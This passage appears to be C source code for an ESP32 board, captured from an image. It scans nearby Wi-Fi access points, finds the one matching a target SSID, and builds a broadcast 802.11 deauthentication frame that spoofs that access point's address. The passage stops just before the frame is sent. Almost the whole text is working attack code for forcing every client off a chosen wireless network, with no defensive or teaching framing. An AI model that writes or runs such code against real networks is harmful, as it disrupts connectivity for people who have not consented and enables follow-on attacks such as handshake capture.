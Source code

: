 ```c
    };

    // Perform scan
    esp_err_t scan_result = esp_wifi_scan_start(&scan_config, true);
    if (scan_result != ESP_OK) {
        ESP_LOGE(TAG, "Scan start failed: %s", esp_err_to_name(scan_result));
        return;
    }

    // Get number of APs
    uint16_t ap_count = 0;
    esp_err_t ap_num_result = esp_wifi_scan_get_ap_num(&ap_count);
    if (ap_num_result != ESP_OK) {
        ESP_LOGE(TAG, "Get AP number failed: %s", esp_err_to_name(ap_num_result));
        return;
    }

    ESP_LOGI(TAG, "Found %d access points", ap_count);

    // Allocate AP records
    wifi_ap_record_t *ap_records = malloc(sizeof(wifi_ap_record_t) * ap_count);
    esp_err_t ap_records_result = esp_wifi_scan_get_ap_records(&ap_count, ap_records);
    if (ap_records_result != ESP_OK) {
        ESP_LOGE(TAG, "Get AP records failed: %s", esp_err_to_name(ap_records_result));
        free(ap_records);
        return;
    }

    // Find target network
    uint8_t target_bssid[6] = {0};
    bool target_found = false;
    for (int i = 0; i < ap_count; i++) {
        ESP_LOGI(TAG, "Found AP: %s", ap_records[i].ssid);
        if (strcmp((char*)ap_records[i].ssid, TARGET_SSID) == 0) {
            memcpy(target_bssid, ap_records[i].bssid, 6);
            target_found = true;
            break;
        }
    }

    if (!target_found) {
        ESP_LOGE(TAG, "Target SSID '%s' not found", TARGET_SSID);
        free(ap_records);
        return;
    }

    // Switch to AP Mode (Required for sending deauth)
    ESP_ERROR_CHECK(esp_wifi_set_mode(WIFI_MODE_AP));

    // Deauth frame
    uint8_t deauth_frame[26] = {
        0x0c, 0x00,   // Frame Control (Deauth)
        0x00, 0x00,   // Duration
        0xFF, 0xFF, 0xFF, 0xFF, 0xFF, 0xFF,  // Receiver Address (Broadcast)
        target_bssid[0], target_bssid[1], target_bssid[2], 
        target_bssid[3], target_bssid[4], target_bssid[5],  // Source Address (AP)
        target_bssid[0], target_bssid[1], target_bssid[2], 
        target_bssid[3], target_bssid[4], target_bssid[5],  // BSSID (AP)
        0x00, 0x00,   // Fragment and Sequence Number
        0x07, 0x00    // Reason Code: Class 3 frame received from nonassociated station
    };

    // Send deauth frame
```